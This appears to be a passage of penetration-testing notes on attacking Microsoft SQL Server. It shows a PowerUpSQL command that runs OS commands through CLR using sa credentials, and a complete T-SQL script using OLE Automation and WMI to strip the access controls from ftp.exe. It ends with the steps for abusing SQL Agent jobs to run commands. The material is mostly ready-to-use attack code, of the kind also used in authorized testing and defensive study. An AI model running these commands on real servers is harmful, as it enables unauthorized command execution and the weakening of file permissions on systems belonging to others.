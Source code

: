 ```
Invoke-SQLOSCmdCLR -Username sa -Password pw -Instance instance -Command "whoami" -Verbose
```

Example: Sets SecurityDescriptor of ftp.exe to everyone:
```
-- Declare variables used to reference the objects
DECLARE @objLocator int,@objWmi int,@objPermiss int,@objFull int;

-- Create a WbemScripting.SWbemLocator object
EXEC sp_OACreate 'WbemScripting.SWbemLocator',@objLocator OUTPUT;

-- Use the SWbemLocator object's ConnectServer() method to connect to the
-- local WMI server. The connection will be to the 'root\cimv2' namespace
EXEC sp_OAMethod @objLocator,
'ConnectServer',@objWmi OUTPUT,'.','root\cimv2';

-- Retrieve an SWbemObject that represents the requested object
-- In this case, a Win32_LogicalFileSecuritySetting object for 'ftp.exe'
EXEC sp_OAMethod @objWmi,
'Get',@objPermiss OUTPUT,
'Win32_LogicalFileSecuritySetting.Path=''ftp.exe''';

-- Create an empty SecurityDescriptor
EXEC sp_OAMethod @objWmi,'Get',@objFull
OUTPUT,'Win32_SecurityDescriptor';

-- Set the SecurityDescriptor's ControlFlags property to
-- '4' (SE_DACL_PRESENT)
EXEC sp_OASetProperty @objFull,'ControlFlags',4;
-- Set the file security setting object's security descriptor to the
new

-- SecurityDescriptor object
EXEC sp_OAMethod @objPermiss,'SetSecurityDescriptor',NULL,@objFull;
```
> https://malwaremusings.com/2013/04/10/a-look-at-some-ms-sql-attacks-overview/

## Agent Jobs (CmdExec, PowerShell, ActiveX etc.)

- job can be scheduled, executed in response to alerts or by using `sp_start_job` stored procedure
- Needs `sysadmin` role to `create` a job.
- Non-sysadmin users with the `SQLAgentUserRole`, `SQLAgentReaderRole`, and `SQLAgentOperatorRole` fixed database roles in the `msdb` database can also be used.
- The execution takes place with privileges of the SQL Server Agent service account if a proxy account is not configured.

> https://docs.microsoft.com/en-us/sql/ssms/agent/sql-server-agent

### Steps
- `xp_startservice` - Start the SQL Server Agent service
- `sp_add_job` - Create Job
- `sp_add_jobstep` - Add job step
- `sp_start_job` - Run Job
- `sp_delete_job` - Delete Job
